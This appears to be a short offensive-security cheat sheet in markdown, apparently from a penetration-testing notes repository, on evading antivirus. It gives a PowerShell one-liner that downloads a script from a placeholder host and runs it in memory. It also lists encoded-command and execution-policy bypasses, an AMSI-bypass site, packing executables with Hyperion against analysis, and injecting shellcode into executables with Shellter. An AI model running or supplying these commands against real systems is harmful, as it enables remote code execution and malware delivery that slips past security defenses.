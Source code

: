 # [hyperion](https://web.archive.org/web/20191116023532/https://nullsecurity.net/tools/binary.html):
#### `wine hyperion.exe <file> <output_file>`
  *  packs the executable for av evasion and anti-reverse-engineering

# [powershell](https://docs.microsoft.com/en-us/powershell/):
#### `powershell.exe iex (New-Object System.Net.WebClient).DownloadString('http://X.X.X.X/file.ps1')`
#### `type .\file.ps1 | powershell.exe -nop -`
#### `powershell.exe -Enc YmFzZTY0IGVuY29kZWQgc2NyaXB0`
#### `GC .\file.ps1 | iex`
#### `Set-ExecutionPolicy Bypass -Scope Process`
  * [this site might help](https://amsi.fail/) / [archived](https://web.archive.org/web/20210801035721/https://amsi.fail/)
  * iex runs it in memory instead of saving to disk
  * -ExecutionPolicy Bypass gets around some powershell restrictions
  * -Enc is short for EncodedCommand can run base64 encoded scripts / text
  * GC is short for Get-Content and can bypass some restrictions
  * Set-ExecutionPolicy is a temporary bypass for some restrictions
  
# [shellter](https://www.shellterproject.com/introducing-shellter/):
#### `choose a target to inject shellcode into`
#### `can do "stealth mode" which attempts to restore execution of target executable after shellcode`